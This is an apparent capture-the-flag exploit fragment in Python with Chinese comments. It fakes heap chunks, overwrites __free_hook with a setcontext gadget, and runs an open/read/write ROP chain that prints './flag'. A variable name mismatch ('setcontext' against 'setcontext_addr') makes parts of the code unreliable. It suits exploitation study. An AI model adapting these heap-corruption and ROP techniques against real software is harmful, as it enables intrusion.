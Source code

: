    ```python
   
   # 准备堆
   payload = b"\x02"*0x40
   payload += p64(free_hook_addr) + p64(0)     #chunk20,用来修改free_hook chunk30没用
   payload += p64(heap_addr+0x1000)            #chunk40 存放flag名字
   payload += p64(heap_addr+0x2000)            #chunk50 作为free的chunk,0x2000+0xa0刚好寻址到下一个chunk中存放的地址
   payload += p64(heap_addr+0x2000+0xa0)       #chunk60 存放栈迁移后的地址
   payload += p64(heap_addr+0x3000)            #chunk70 ORW1
   payload += p64(heap_addr+0x3000+0x60)       #chunk80 ORW2,衔接上一个继续写，不能将chunk头空出来
   edit(payload)
   
   # 准备ORW
   pop_rdi=libc_base+0x00000000000215bf
   pop_rdx=libc_base+0x0000000000001b96
   pop_rax=libc_base+0x0000000000043ae8
   pop_rsi=libc_base+0x0000000000023eea
   ret=libc_base+0x8aa
   open=libc.sym['open']+libc_base
   read=libc.sym['read']+libc_base
   write=libc.sym['write']+libc_base    
   syscall=read+15
   flag=heap_addr+0x1000   
   setcontext=libc.sym['setcontext']+libc_base+53  #prepare
   
   #open(0,flag) (open will delete environment)
   orw =p64(pop_rdi)+p64(flag)
   orw+=p64(pop_rsi)+p64(0)
   orw+=p64(pop_rax)+p64(2)
   orw+=p64(syscall)      
   
   #read(3,heap+0x1010,0x30) 
   orw+=p64(pop_rdi)+p64(3)
   orw+=p64(pop_rsi)+p64(heap_addr+0x1010)
   orw+=p64(pop_rdx)+p64(0x30)
   orw+=p64(read)     
   
   # #write(1,heap+0x1010,0x30)
   orw+=p64(pop_rdi)+p64(1)
   orw+=p64(pop_rsi)+p64(heap_addr+0x1010)#存放地址0x50
   orw+=p64(pop_rdx)+p64(0x30)
   orw+=p64(write)
   
   # 向堆上写入ORW
   add(0x38)
   edit(b"./flag\x00\x00")   #写入flag
   
   #写入堆上ORW的地址
   add(0x58)
   edit(p64(heap_addr+0x3000)+p64(ret)) #加ret时为例平衡setcontext中的push指令
   
   #分两次向堆写入ORW
   add(0x68)
   edit(orw[:0x60])
   add(0x78)
   edit(orw[0x60:])
   
   #修改free_hook
   add(0x18)
   edit(p64(setcontext_addr))
   
   success("heap_addr==>"+hex(heap_addr))
   debug()
   #触发ORW
   ```